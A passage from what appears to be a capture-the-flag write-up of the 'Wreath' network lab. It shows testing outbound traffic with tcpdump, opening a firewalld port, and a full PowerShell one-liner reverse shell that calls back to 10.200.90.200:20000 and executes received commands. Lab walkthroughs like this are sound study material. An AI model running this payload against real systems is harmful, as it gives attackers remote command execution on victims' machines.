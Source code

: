 Now we need the reverse shell from that server also before that we need to check this machine allowed to connect outside, we can do that with simple ping command.

```
#Listen for icmp pings in your machine

sudo tcpdump -i tun0 icmp

#then ping using webshell command
```

![](/Images/wreath/Screenshot-2021-04-07-151831.png)

it failed we need to check for the reason, CentOS uses an always-on wrapper around the IPTables firewall called "firewalld". By default, so we need to allows selected port to connect via reverse shell.

```
firewall-cmd --zone=public --add-port 20000/tcp
```

![](/Images/wreath/Screenshot-2021-04-07-154725-1024x210.png)

since this is windows machine we need powershell payload also we need to upload nc since that linux machine don't have nc install in it. same as earlier upload nc binary using python server. check below payload.

```
powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('10.200.90.200',20000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
